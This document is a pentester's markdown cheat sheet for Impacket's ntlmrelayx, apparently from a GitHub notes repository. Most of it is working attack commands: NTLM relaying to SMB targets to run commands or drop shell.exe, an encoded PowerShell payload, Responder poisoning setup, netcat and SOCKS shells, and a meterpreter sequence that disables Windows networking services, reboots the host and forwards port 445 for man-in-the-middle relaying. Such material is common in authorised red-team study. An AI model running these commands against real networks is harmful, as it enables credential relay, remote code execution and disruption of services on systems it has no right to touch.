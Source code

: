 # Impacket

## 01 - NTLMRelayX

### 1.2 - Usage

TODO: Fill more info

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -c <commands>

$ sudo ntlmrelayx.py -tf targets.txt -smb2support -c <commands>

$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -e shell.exe

$ sudo ntlmrelayx.py -tf targets.txt -smb2support -e shell.exe
```

- NTLM Relaying

```
$ smbserver.py -smb2support -port 8445 share $(pwd)

$ ntlmrelayx.py -tf targets.txt -smb2support --no-http-server --no-wcf-server --no-raw-server
```

- Interactive shell with netcat

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -socks

$ nc 127.0.0.1 <PORT>
```

### 1.3 - Use Cases

#### 1.3.1 - Callback Shell

- Modify in the Responder configuration file

`$ sudo nano /etc/responder/Responder.conf`

---

```
SMB=OFF
HTTP=OFF
```

- Start the Responder

```
$ sudo responder -I <interface> -rdw
```

Spawn callback shell

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -e shell.exe

$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -c "powershell.exe -E <base64_encoded>"
```

Interactive shell with netcat

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -i

$ nc 127.0.0.1 <PORT>
```

#### 1.3.2 - Proxychains via Relaying

##### 1.3.2.1 - Hijack Host and Setup MITM

- Disable SMB to spoof the targets via proxychains

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -socks

meterpreter > shell

C:\> sc stop netlogon

C:\> sc stop lanmanserver

C:\> sc config lanmanserver start=disabled

C:\> sc stop lanmanworkstation

C:\> sc config lanmanworkstation start=disabled

C:\> shutdown /r

C:\> exit
```

Add a reverse port forward to 445 to relay SMB attack via the command and control server (metasploit)

`meterpreter > portfwd add -R -L <bind_target_IP> -l 445 -p 445`

- Cleanup

```
meterpreter > shell

C:\> sc config lanmanserver start=auto

C:\> sc start lanmanworkstation

C:\> sc config lanmanworkstation start=auto

C:\> sc start netlogon
```

---
## References

- [AD Series: How to Perform Broadcast Attacks Using NTLMRelayx, MiTM6 and Responder](https://raxis.com/blog/ad-series-how-to-perform-broadcast-attacks/)

- [Tryhackme HOLO](https://stimpz0r.com/tryhackme-holo/)

- [How to Exploit Active Directory ACL Attack Paths Through LDAP Relaying Attacks](https://www.praetorian.com/blog/how-to-exploit-active-directory-acl-attack-paths-through-ldap-relaying-attacks/)

### Scenarios

#### Remote NTLM Relaying

- [DiabloHorn: Remote NTLM relaying through meterpreter on Windows port 445](https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/)

- [Rasta Mouse: NTLM Relaying via Cobalt Strike](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)

- [Pentester's Promiscous Notebook: NTLM Relay](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ntlm/ntlm-relay)

#### MSSQL

- [Relaying NTLM to MSSQL](https://blog.compass-security.com/2023/10/relaying-ntlm-to-mssql/)